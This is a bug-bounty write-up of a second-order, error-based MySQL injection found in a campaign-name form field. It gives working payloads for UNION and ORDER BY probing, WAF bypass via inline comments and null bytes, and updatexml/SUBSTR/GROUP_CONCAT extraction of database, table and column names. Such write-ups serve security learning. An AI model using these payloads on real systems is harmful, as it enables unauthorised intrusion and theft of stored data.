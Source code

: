 ```yaml
---
title: Accidental second order error based sql injection
tags: sql
author: djxploit
show_author_profile: true
show_title: true
show_date: true
show_tags: true
full_width: false
header: false
footer: true
show_edit_on_github: false
show_subscribe: false
license: false
---
```

<script type="text/javascript">
	atOptions = {
		'key' : 'af56de7d63228726a64b22ea573e89f8',
		'format' : 'iframe',
		'height' : 60,
		'width' : 468,
		'params' : {}
	};
	document.write('<scr' + 'ipt type="text/javascript" src="http' + (location.protocol === 'https:' ? 's' : '') + '://www.highperformancedisplayformat.com/af56de7d63228726a64b22ea573e89f8/invoke.js"></scr' + 'ipt>');
</script>
Hello everyone.   
So this issue was found on a private program. There was a feature to create campaigns for different purpose. It required various form fields, like campaign_name, duration of the campaign, mode of the campaign(private/public), etc. On submitting the form, a POST request was sent containing the form fields. This will inturn generate a link for the created campaign , and using this link the user could access it. The POST data contain a field `campaign_name` , and that was the injection point.  

I was originally looking for second order xss on this feature, as the value of `campaign_name` field was getting reflected in the source code of the generated campaign (accessible using the generated link). So I tried to see which characters are encoded(in an attempt for possible xss). And in that process, I inserted a `double_quote(")`, and upon visting the generated link, it gave me a sql error. To confirm, I added another `double_quote(")` and the error was gone, and I received a 200 OK response status (On error it was giving me 500 status with the sql error). So this confimed that it is an error-based sql injection. The error message also revealed the structure of the sql query used to retrieve the value of `campaign_name`:  
  ```select name from campaign where name like "campaignx%"```  

So my injection was in `campaignx`. By looking at above query it is evident that injecting a single double quote would break the query, but 2 double quote won't break the query. Also in order to make sure that my injected query doesnot break the original query, I need to discard everything that is after the injection point (the remaining `%"` of the query). For that I need to use comments. Upon trial and error, I found that `#` is working as a valid comment (indicating that the database may be mysql). So my injected query is like :  
  ```select name from campaign where name like "campaignx"injected_data;#%"```  
The semicolon is used to end the statements that are being used in the injection.  

My next option was to extract data. First I tried to check what keywords are allowed. This is because, when I tried to add `and` or `or` keyword, it was blocked by
cloudflare WAF, giving me a 403 status code. So then I checked for `UNION`, luckily this was allowed. Similarly `ORDER by` was also allowed. But white spaces are
not allowed. So I tried various bypasses, and settled on sql inline comments `/**/`. So now I could use `UNION` to execute additional sql queries in the injected
point. So if I am going to use UNION, one thing to remember is that the number of columns, the previous table has, should be equal to number of columns you are
accessing in your query. So if `campaign` table has 3 columns ,then we should also use 3 columns. So the UNION query be like: 
  ```select name from campaign where name like "campaignx"/**/UNION/**/select/**/1,2,3;#%"```  

But as we don't know the column number of the `campaign` table, we need to find that using the `ORDER BY` clause as follows :  
  ```select name from campaign where name like "campaignx"/**/ORDER/**/BY/**/1;#```  
If this returned no error, then we need to increase the `ORDER BY` number, unless we get an error. So for example, if `ORDER BY 5` gives an error, but `ORDER BY 4`
doesnot give an error, then we can conclude that the table `campaign` has 4 columns.  

So now we could finally use the union statement. So I ran the follwoing query:  
  ```select name from campaign where name like "entered campaign"/**/UNION/**/select/**/1,2,3,4;#```  
This gave me 200 status error, meaning that the query executed without any error. So it is valid.
But the thing is none of the 1,2,3 or 4 is reflected in the response. So I could not find which column is reflecting in the output , so which one should I use for 
extracting information. But that was obivious, as this was error-based sql, so only when the query will return error, error will be displayed.  

So searching for cheatsheets and resources, I found that error messages can also be used to extract information. And this is what I used. But out of many techniques, like convert(), duplicate select statements and updatexml(), only updatexml() tends to work in my case. But updatexml also has a limitation, that it can only output 32 chars. But while trying the below query, I ran into a problem :  
  ```"/**/UNION/**/select/**/updatexml(null,(@@version),null),NULL,NULL,NULL,NULL,NULL;#```  
This returned only the last 3 chars of the version.   
Searching more about updatexml() , I found that I need to use concat() , in order to get the full 32 bytes. But soon I found that concat() is also blocked by WAF.
This time I took the challenge, and tried various methods for bypassing by following online resources. Soon I found that using `null byte (0x00)` , I could bypass the WAF. And by null byte, I mean while sending the POST request, edit the request in hex editor(burp suite also provide) and add a null byte(00) between the concat keyword. So the query seems like :  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(@@version)),null),NULL,NULL,NULL,NULL,NULL;#```  
And this gave me the full version, as the size of the string was below 32 bytes.  

So now I can use following query to retrieve other information.   
Database names can be retrieved by : `select schema_name from information_schema.schemata`  
Table name of current database : `select table_name from information_schema.tables where table_schema=database()`  
Column name of a table : `select column_name from information_schema.columns where table_name="mytablename"`  

But the problem occured, when I tried to implement it.  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(select schema_name from information_schema.schemata/**/LIMIT/**/0,1)),null),NULL,NULL,NULL,NULL,NULL;#```  
This gave me the 1st database_name. To get the second one I simply need to increase the LIMIT from 0,1 to 1,1 and so on.  
But what if the 1st database_name is greater than 32 bytes (that would not be the case for database names generally, but would be the case for the records like email,password, as they are generally greater than 32 bytes, considering that they are encrypted). So in that case I would only be able to retrieve the 1st 32 bytes and the rest would simply be truncated.  

So again googling for this situation, I found a stackoverflow thread, that gives a hint towards this situation. So the solution is I need to use SUBSTR()
Query would be :   
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),1,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
This would retrieve the 1st 32 byte of the 1st database name, and to get the remaining part of 1st database name (if there is any), we just need to increase the SUBSTR location number from 1 to 32 like :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),32,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
and so on.  
Now this query can be used to retrieve the database names. But there is extra query that is being used. For example, if the database name is less than 32 bytes, but if we are still calling the 2nd query to look for 2nd 32 bytes also, then that query is just wastage of time.  
Also if the name is more than 64 bytes, we would need 3 queries to get the full database name. But as we don't know the total length of the database name, we would simply issue 2 queries or a preprogrammed number of queries, and so that would mean wastage of query or loss of data.  
So searching for this , I again found a solution on internet. This solution looks like as follows :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((SELECT/**/CAST(GROUP_CONCAT(table_name,0x0a)/**/as/**/CHAR(4096))/**/FROM/**/(SELECT/**/*/**/FROM/**/information_schema.tables/**/where/**/table_schema=database())a),1051,32)),null),1,1,1,1,1;#```  
So this query would first retrieve all the table names ,and then it would join them using the concat(), and then using cast() function it would convert the result to character type, and then finally using substr() , we could get them one by one , at 32 bytes per query.  
This is highly optimized, removes the overhead of changing limits to get different tables, also no wastage of query.  

Finally I rerieved all database information. 

**Note: Try the query in your local mysql database, then try in the live website.**  

Resources used :  
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi  
https://security.stackexchange.com/questions/121204/dumping-custom-query-via-sql-injection-when-output-is-in-the-die-function  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html  
https://websec.ca/kb/sql_injection  
https://rafaybaloch.com/2017/06/error-based-sql-injection-tricks-in.html  
https://www.exploit-db.com/papers/13650  
https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet  
https://www.programmersought.com/article/29625825274/  
https://incogbyte.github.io/hacking/2020/12/12/sqli-bypass-techs.html  
https://medium.com/@hninja049/advance-sql-injection-bypass-waf-10c50fdbb80d  
https://www.sqlinjection.net/time-based/  
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec  
https://www.exploit-db.com/docs/english/14475-sql-injection-tutorial.pdf  
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md  
https://book.hacktricks.xyz/pentesting-web/sql-injection  
https://www.programmersought.com/article/48964149849/  
